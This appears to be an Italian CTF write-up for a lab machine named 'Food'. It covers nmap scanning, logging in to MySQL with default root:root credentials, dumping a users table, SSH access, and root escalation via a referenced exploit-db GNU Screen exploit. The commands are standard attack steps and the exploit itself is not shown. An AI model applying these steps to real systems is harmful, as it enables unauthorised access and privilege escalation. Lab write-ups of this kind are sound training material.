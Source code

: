 # FOOD

## ENUMERAZIONE

scan della macchina per torvare possibili porte e la versione di queste.

```bash
nmap food.thm -sV -sC 
```

dalla scansione notato che è aperto un servizio sql andiamo ad analizzarlo meglio con nmap.

```bash
nmap food.thm -sV --script *sql* 
```
quando nmap finisce lo scan ci restituisce dati molto utili, per esempio che l'utente di mysql è root:root
e questo ci da carta bianca sulla conessione all'sql.

## SERVIZIO SQL

quindi colleghiamoci all'sql e vediamo che dati contiene

```bash
mysql -u root -h 10.10.79.244 -p
```
successivamente mi faccio dumpare tutti i database presenti.

```bash
show databases;
```
```bash
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
```
ecco la tables che ci serve andiamo a prenderla.
```bash
use users
```
e successivamente. 
```bash
show tables;
```
adesso abbiamo trovato una tables di nome user andiamo a leggere cosa c'è dentro.
```bash
SELECT * FROM User;
```


ramen    ***************                       
flag     ************************************* 


ecco un utente con la sua password e un flag!

entriamo in ssh.

## SSH
```bash
ssh ramen@food.thm
```
controllate in giro ci dovrebbero essere altre flag che potete prendere.

facendo un controllo dei permessi che abbiamo.
ho notato che possiamo fare davvero molto poco, quindi sono andato a cercare le vulnerabilità per quanto riguarda GNU, e ne ho trovata una davvero interessate
andiamo ad utilizzarla.

## PRIVILEGE ESCALATION

https://www.exploit-db.com/exploits/41154 ho usato questo exploit per fare priv esc,
questo exploit sfrutta un autenticazione di livello maggiore(root) e ci permette tramite un vulnerabilità presente in 
quest'ultima di fare priv esc.

una volta scaricato lo script lo passiamo sulla macchina il gioco è fatto.
```bash
chmod +x script.sh
./script.sh
```
